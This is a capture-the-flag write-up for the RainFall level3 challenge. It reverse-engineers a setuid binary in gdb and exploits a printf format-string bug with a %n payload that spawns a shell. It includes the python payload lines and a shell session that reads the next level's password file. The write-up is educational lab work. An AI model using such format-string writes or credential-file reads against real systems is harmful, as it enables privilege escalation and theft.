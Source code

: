 
# Preparations

Entering level3 home directory we see a level3 binary with sticky bit in access rights.
By objdumping the binary we see 2 functions: main and v:

	level3@RainFall:~$ objdump -D -M intel-mnemonic level3 > /tmp/dump

Why do we do objdump first? Maybe in this exercise a function exists but is not used so we need to see all the functions.

# Code writing

We start to work with gdb in Intel syntax (set disassembly-flavor intel):

	(gdb) disass main
	Dump of assembler code for function main:
	   0x0804851a <+0>:	push   %ebp
	   0x0804851b <+1>:	mov    %esp,%ebp
	   0x0804851d <+3>:	and    $0xfffffff0,%esp
	   0x08048520 <+6>:	call   0x80484a4 <v>
	   0x08048525 <+11>:	leave
	   0x08048526 <+12>:	re

The only action after prologue is a call of the v function.
So main will look like:

	int main(void)
	{
		v();
	}

Let's look in the v function:

	(gdb) disass v
	Dump of assembler code for function v:
	   0x080484a4 <+0>:	push   ebp
	   0x080484a5 <+1>:	mov    ebp,esp
	   0x080484a7 <+3>:	sub    esp,0x218
	   0x080484ad <+9>:	mov    eax,ds:0x8049860			;as last times we start to upload some FILE stream
	   0x080484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax		;argument for fgets, fourth
	   0x080484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200	;argument for fgets, third
	   0x080484be <+26>:	lea    eax,[ebp-0x208]			;argument for fgets, second
	   0x080484c4 <+32>:	mov    DWORD PTR [esp],eax		;argument for fgets, first
	   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>		; call fgets with arguments placed on stack
	   0x080484cc <+40>:	lea    eax,[ebp-0x208]			;argument for printf
	   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax		;argument for printf, first
	   0x080484d5 <+49>:	call   0x8048390 <printf@plt>		; call printf with arguments placed on stack
	   0x080484da <+54>:	mov    eax,ds:0x804988c			;something new, finally it occured to be a global variable
	   0x080484df <+59>:	cmp    eax,0x40				;comparison to 64, global must be a number
	   0x080484e2 <+62>:	jne    0x8048518 <v+116>		;if global is not equal 64 we leave
	   0x080484e4 <+64>:	mov    eax,ds:0x8049880			;as last times we start to upload some FILE stream
	   0x080484e9 <+69>:	mov    edx,eax				;getting ready to fwrite call
	   0x080484eb <+71>:	mov    eax,0x8048600			;getting ready to fwrite call
	   0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx		;argument for fwrite, fourth
	   0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc		;argument for fwrite, third
	   0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1		;argument for fwrite, second
	   0x08048504 <+96>:	mov    DWORD PTR [esp],eax		;argument for fwrite, first
	   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt> 		;call fwrite
	   0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d	;preparation to system
	   0x08048513 <+111>:	call   0x80483c0 <system@plt>		;call system
	   0x08048518 <+116>:	leave
	   0x08048519 <+117>:	ret

Let's see some insites by their addresses:

	(gdb) x/s 0x804988c
		0x804988c <m>:	 ""
	(gdb) print *0x804988c
		$4 = 0

This variable (global one) equals zero that means that it is static (in C all the static variables are 0 by declaration):

	(gdb) x/s 0x8049860
		0x8049860 <stdin@@GLIBC_2.0>:	 "\300", <incomplete sequence \375\267>
	(gdb) x/s 0x8049880
		0x8049880 <stdout@@GLIBC_2.0>:	 " ", <incomplete sequence \375\267>
	(gdb) x/s 0x8048600
		0x8048600:	 "Wait what?!\n"
	(gdb) x/s 0x804860d
		0x804860d:	 "/bin/sh"

All the strings and FILE streams are known now.\
We also need to get the buffer size that is sent to first `fgets` function. We look at the stack + make tests:

	(gdb) x/150x $esp
		a lot of addresses and return addresses:
		0xbffff6d0:	0xb7fed280	0x00000000	0xbffff6e8	0x08048525

It is impossible to overwrite buffer this time because fgets takes definite number of symbols from stdin and all the other leaves there. From the address of the last found letter we substract the beginning of the buffer and get 511 byte + \0 = 512 byte.

	(gdb) p 0xbffff6cf - 0xbffff4d0
		$19 = 511

Numbers in hex are transferred to decimal with the help of programming calculator and finally we write the code in C.\

# Exploitation

We can use shell under level4 user if global variable is equal 64. Global variable lies in bss under address:

	level3@RainFall:~$ objdump -t ./level3
		0804988c g     O .bss	00000004              m

Or \x8c\x98\x04\x08 in little-endian.\
On this level we deal with format string exploits in `printf(buffer)`. It was difficult for understanding.\

String for `printf` lies on the stack and with the help of format string we can look at the stack without gdb:

	level3@RainFall:~$ ./level3
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 00000200 b7fd1ac0 b7ff37d0 **41414141** 41414141 41414141 41414141 41414141 41414141 41414141 41414141

Where our AAA string starts from the **fourth** `printf` argument. Let's try to rewrite address:

	level3@RainFall:~$ python -c "print('AAAA' + '\x8c\x98\x04\x08' + 'BBBB' + '%x ' * 120)" > /tmp/1lev3

	Starting program: /home/user/level3/level3 < /tmp/1lev3
	Breakpoint 4, 0x080484c7 in v ()
	(gdb) x/30wx $esp
		0xbffff4e0:	0xbffff4f0	0x00000200	0xb7fd1ac0	0xb7ff37d0
		0xbffff4f0:	0x00000000	0xb7e2b900	0x00000001	0xb7fef305
		0xbffff500:	0xbffff558	0xb7fde2d4	0xb7fde334	0x00000007

	(gdb) c
		Continuing.

	Breakpoint 1, 0x080484cc in v ()
	(gdb) x/30wx $esp
		0xbffff4e0:	0xbffff4f0	0x00000200	0xb7fd1ac0	0xb7ff37d0
		0xbffff4f0:	0x41414141	**0x0804988c**	0x42424242	0x25207825
		0xbffff500:	0x78252078	0x20782520	0x25207825	0x78252078

All the other 0x25207825 are ‘%x %’ strings. So we can rewrite address of the global variable to the buffer. And then in order to change value of the variable we need to use %n: 

> There is the ‘%n’ parameter, which writes the number of bytes already printed, into a variable of our choice.

So before %n we need to have 64 bytes in the string.

	% python -c 'print "\x8c\x98\x04\x08" + "%10u" * 3 + "JUNK" * 7 + "AA" + "%n"' > /tmp/3lev3

Where functionally:

	- \x8c\x98\x04\x08 - address of the global variable
	- "%10u" * 3 - alignment of stack so that we "pointer" to the 4th argument in printf (beginning of buffer on stack)
	- "JUNK" * 7 + "AA" - bytes to have 64 bytes before %n
	- "%n" that rewrites value of the variable under address that lies in the beginning of the buffer

Where bytes number:

	- \x8c\x98\x04\x08 - 4 bytes
	- "%10u" * 3 - 30 bytes (30 spaces, we do not print anything with this printf so there will be only spaces)
	- "JUNK" * 7 + "AA" - 30 bytes

That equals 64 bytes.

	Breakpoint 1, 0x080484cc in v ()
	(gdb) x/30wx $esp
		0xbffff4e0:	0xbffff4f0	0x00000200	0xb7fd1ac0	0xb7ff37d0
		0xbffff4f0:	**0x0804988c**	*0x75303125*	*0x75303125*	*0x75303125*
		0xbffff500:	0x41414141	0x41414141	0x41414141	0x41414141
		0xbffff510:	0x41414141	0x41414141	0x41414141	0x6e254141

It is very difficult to understand it if you do not play with the line and look on gdb.

# Result

	level3@RainFall:~$ cat /tmp/3lev3 - | ./level3
	�       51230868179843086956496JUNKJUNKJUNKJUNKJUNKJUNKJUNKAA
	Wait what?!
	whoami
	level4
	cat /home/user/level4/.pass
	b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
	^C

Why do we use `cat -` command? Because even if we break the level and call shell, binary is "limited" and can not give us terminal. For that reason we use option of `cat` that helps us to use stdin where shell is called after exploitation.